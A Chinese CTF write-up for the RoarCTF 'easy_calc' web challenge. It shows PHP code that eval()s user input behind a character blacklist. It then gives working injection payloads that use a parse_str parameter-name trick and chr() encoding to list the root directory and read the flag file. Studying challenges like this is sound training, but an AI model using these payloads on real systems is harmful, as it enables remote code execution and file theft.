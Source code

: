 ```yaml
---
title: buuoj刷题记录2
date: 2019-12-26 20:16:12
tags:
 - ctf
 - Roarctf
 - web
 - buuctf
categories: 
 - 刷题记录
---
```


## [Roarctf]easy_calc

### 0x00 基础

php内置读取文件内容函数

```php
file_get_contents()
readfile()
file()
```

目录扫描函数

```php
scandir()
```

<!--more-->

字符转换函数

```php
hex2bin("979797")->"aaa"
chr(95)->"a"
```

输出函数

```php
var_dump()
printf()
```

`parse_str`函数通常被自动应用于`get`、`post`请求和`cookie`中。使用`parse_str`解析规则绕过waf

### 0x01 分析

查看源码，发现calc.php

```php
<script>
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("这啥?算不来!");
            }
        })
        return false;
    })
</script>
```

进入calc.php,进行代码审计。

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {    
                        die("what are you want to do?");//如果包含黑名单中的字符，程序退出
                }
        }
        eval('echo '.$str.';');
}
?> 
```

### 0x02 开始操作

传入`1+1` 显示`403 Forbidden` 传入`1%2b1`就可以。必须传入url编码后的。查看`phpinfo()`，也是`403 Forbidden`，利用PHP自动解析函数`parser_str()`绕过，详细介绍查看[参考连接](https://www.freebuf.com/articles/web/213359.html)。

扫描目录使用`scandir()`因为`/ '  "`被过滤无法直接使用`/`，使用`chr()`转换payload= `?+num=print_r(scandir(chr(47)))`

```php
Array ( [0] => . [1] => .. [2] => .dockerenv [3] => bin [4] => boot [5] => dev [6] => etc [7] => f1agg [8] => home [9] => lib [10] => lib64 [11] => media [12] => mnt [13] => opt [14] => proc [15] => root [16] => run [17] => sbin [18] => srv [19] => start.sh [20] => sys [21] => tmp [22] => usr [23] => var ) 1
```

使用PHP内置函数获`file_get_contents()`获取文件内容payload=`?+num=printf(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))`

```
flag{d09c31b7-d1a1-45a2-b35b-65452a1335ef} 43
```

